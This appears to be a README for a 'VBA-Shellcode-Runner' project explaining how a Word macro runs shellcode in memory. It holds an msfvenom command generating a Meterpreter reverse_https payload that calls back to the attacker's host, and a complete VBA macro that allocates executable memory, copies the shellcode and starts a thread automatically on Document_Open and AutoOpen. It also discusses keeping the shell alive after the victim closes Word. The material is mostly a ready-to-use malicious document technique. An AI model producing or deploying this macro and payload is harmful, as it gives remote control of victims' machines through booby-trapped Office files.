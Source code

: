 # VBA-Shellcode-Runner:

Calling Win32 APIs from VBA:

Windows operating system APIs (or Win32 APIs) are located in dynamic link libraries and run as unmanaged code. We'll use the Declare keyword to link to these APIs in VBA, providing the name of the function, the DLL it resides in, the argument types, and return value types. We will use a Private Declare, meaning that this function will only be used in our local code.
The typical approach is to use three Win32 APIs from Kernel32.dll: VirtualAlloc, RtlMoveMemory, and CreateThread. For function prototype we can refer https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex


We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode. 

Allocating memory through other Win32 APIs returns non-executable memory due to the memory protection called Data Execution Prevention (DEP)

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, but Microsoft Word 2016 installs as 32-bit by default, so we will generate 32-bit shellcode. 

Also set sslversion TLS1.2 to handle https payload

    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication 
  
  (Since we will be executing our shellcode inside the Word application, we specify the EXITFUNC with a value of "thread" instead of the default value of "process" to avoid closing Microsoft Word when the shellcode exits.)


In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use VirtualAlloc to create some space for our shellcode. Next, we use RtlMoveMemory to put our code in memory with the help of a For loop. Finally, we use CreateThread to execute our shellcode. When executed, our shellcode runner calls back to the Meterpreter listener and opens the reverse shell as expected, entirely in memory.

To work as expected, this requires a matching 32-bit multi/handler in Metasploit with the EXITFUNC set to "thread" and matching IP and port number.

the primary disadvantage is that when the victim closes Word, our shell will die. so we need to incorporate Process Injection/Migration techniques. Metasploit's AutoMigrate module solves this. 

Code: 
        
        Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
        
        Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
        
        Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
        
        Function MyMacro()
            Dim buf As Variant
            Dim addr As LongPtr
            Dim counter As Long
            Dim data As Long
            Dim res As Long
            
            buf = Array(252, 232, 143, 0, 0, 0, 96, .......<generated shell code> )
        
            addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
            
            For counter = LBound(buf) To UBound(buf)
                data = buf(counter)
                res = RtlMoveMemory(addr + counter, data, 1)
            Next counter
            
            res = CreateThread(0, 0, addr, 0, 0, 0)
        End Function
        
        Sub Document_Open()
            MyMacro
        End Sub
        
        Sub AutoOpen()
            MyMacro
        End Sub
        

